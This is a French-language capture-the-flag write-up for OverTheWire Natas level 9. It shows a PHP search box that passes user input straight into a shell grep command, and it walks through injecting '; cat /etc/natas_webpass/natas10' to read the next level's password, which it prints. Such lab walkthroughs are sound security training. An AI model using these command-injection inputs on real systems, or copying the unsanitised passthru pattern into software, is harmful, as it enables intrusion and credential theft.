 ## Over-The-Wire -writeup-
### Natas9 (http://natas9.natas.labs.overthewire.org/)

---
#### Etape 1

On a un box de recherche qui, d'après le sourcecode mis à disposition, cherche chaque mot contenant l'input de l'utilisateur dans un dictionnaire.txt

Voici la fonction php:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

**On sait aussi que les mots de passes sont stockés dans /etc/natas_webpass/**, et la ligne de recherche dans le dictionnaire est vulnérable:
> passthru("grep -i $key dictionary.txt");

Il suffit de remplacer la variable $key par ";" pour terminer la ligne, et à la suite une commande qui nous permettrais de voir le contenu de *webpass*:

---
#### Etape 2

Tapons `; ls -la /etc/natas_webpass/natas10"` dans le box de recherche, et on obtient:
> -r--r----- 1 natas10 natas9     33 Dec 20  2016 /etc/natas_webpass/natas10  
> -rw-r----- 1 natas9  natas9 460878 Dec 15  2016 dictionary.txt

Et si on rentre `; type /etc/natas_webpass/natas10"`, on trouve que le fichier natas10 est un ASCII text.  

---
#### Etape 3


Il suffit de rentrer `; cat /etc/natas_webpass/natas10"` pour voir à quoi ressemble le fichier, et après avoir fait ça la page renvoie: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu.

---
Mot de passe: **nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu**
